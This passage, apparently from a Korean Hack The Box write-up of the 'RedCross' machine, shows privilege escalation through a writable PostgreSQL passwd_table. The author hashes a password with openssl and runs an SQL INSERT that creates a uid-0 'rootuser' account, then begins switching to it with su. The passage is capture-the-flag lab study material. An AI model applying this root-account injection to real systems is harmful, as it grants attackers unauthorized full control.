 ![DB 루트 권한](/assets/htb-linux/redcross/psql-root-user.png)

이 권한을 활용하여 `INSERT` 문을 통한 SQL 계정 생성을 진행할 것 이다.

먼저 `openssl` 명령어로 `rootuser` 계정의 비밀번호 해시를 생성하였다.

```bash
$ openssl passwd -1 rootuser  

$1$YKpklG6D$uEIw6t0zGfvzypCvd0h24/
```

이후 `INSERT` 권한을 이용해 **uid=0, gid=0(root 권한)** 을 가진 `rootuser` 계정을 추가하였다.

```sql
insert into passwd_table (username, passwd, uid, gid, homedir) values ('rootuser', '$1$YKpklG6D$uEIw6t0zGfvzypCvd0h24/', 0, 0, '/');
```

마지막으로 `SELECT` 문으로 `passwd_table`을 조회해 본 결과,
새로운 root 권한 계정(`rootuser`)이 정상적으로 생성된 것을 확인할 수 있었다.

![루트 계정 생성](/assets/htb-linux/redcross/psql-root-success.png)

# Root

시스템 내에서 `su` 명령어를 사용하여 `rootuser` 계정으로 전환을 시도하였다.
